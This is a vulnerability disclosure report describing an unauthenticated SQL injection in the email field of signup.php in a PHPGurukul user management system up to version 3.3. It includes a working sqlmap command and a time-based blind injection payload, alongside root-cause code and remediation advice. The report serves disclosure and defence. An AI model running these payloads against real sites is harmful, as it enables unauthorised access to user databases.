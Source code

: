# 🐞 Unauthenticated SQL Injection via `email` POST Parameter in `signup.php` in User Registration & Login and User Management System With Admin Panel ≤ v3.3



👨‍💻 **BUG Author:**
**4m3rr0r**

---

📦 **Product Information:**

* **Product Name:** User Registration & Login and User Management System With Admin Panel
* **Vendor Homepage:** [https://phpgurukul.com](https://phpgurukul.com)
* **Download Link:** [https://phpgurukul.com/user-registration-login-and-user-management-system-with-admin-panel/](https://phpgurukul.com/user-registration-login-and-user-management-system-with-admin-panel/)
* **Affected Version:** `<= 3.3`
---

🛠 **Vulnerability Details**

### 🧨 Vulnerability Type

* **SQL Injection (CWE-89)**

---

### 🧬 Root Cause

The application directly embeds unsanitized user input into an SQL query during registration in `signup.php`, specifically via the `email` POST parameter, without using prepared statements or escaping.

```php
$sql=mysqli_query($con,"select id from users where email='$email'");
```

This allows attackers to inject arbitrary SQL code.

---

### ⚠️ Impact

* Extract database contents
* Bypass registration logic
* Enumerate users
* Perform data manipulation (INSERT/UPDATE/DELETE)
* Potential for remote code execution if stacked queries are enabled

---

### 📋 Description

A **SQL Injection** vulnerability exists in `signup.php` of **User Registration & Login and User Management System With Admin Panel <= v3.3**. The `email` parameter of the POST request is vulnerable to **Boolean-based Blind** and **Time-based Blind SQL Injection**.

No authentication is required to exploit the flaw, making it a critical risk for public-facing applications.

---

### 🔬 Proof of Concept

#### ✅ sqlmap Command:

```bash
sqlmap -u "http://192.168.16.109/loginsystem/signup.php" \
--data="fname=test&lname=test&email=test*&password=Test123&confirmpassword=Test123&contact=1234567890&submit=Submit" \
--level=5 --risk=3 --batch --technique=BEUSTQ
```
#### 💥 Injected Payload (Time-based):

```http
email=test' AND (SELECT 2951 FROM (SELECT(SLEEP(5)))kzln)-- 
```
![sqlmap](./Images/2025-07-10_23-36.png)


---

### 🛡 Suggested Remediation

Use **prepared statements** (`mysqli_prepare` or `PDO`) and parameterized queries instead of directly embedding user input in SQL statements.

**Example:**

```php
$stmt = $con->prepare("SELECT id FROM users WHERE email = ?");
$stmt->bind_param("s", $email);
$stmt->execute();
```

---

### 🔐 Security Recommendations

* Hash all user passwords using `password_hash()`, never store plaintext
* Sanitize and validate all user inputs (server-side)
* Use Web Application Firewalls (WAF)
* Apply the principle of least privilege for DB users
* Regularly audit code for security issues

---

### 📚 References

* [SQL Injection - OWASP](https://owasp.org/www-community/attacks/SQL_Injection)

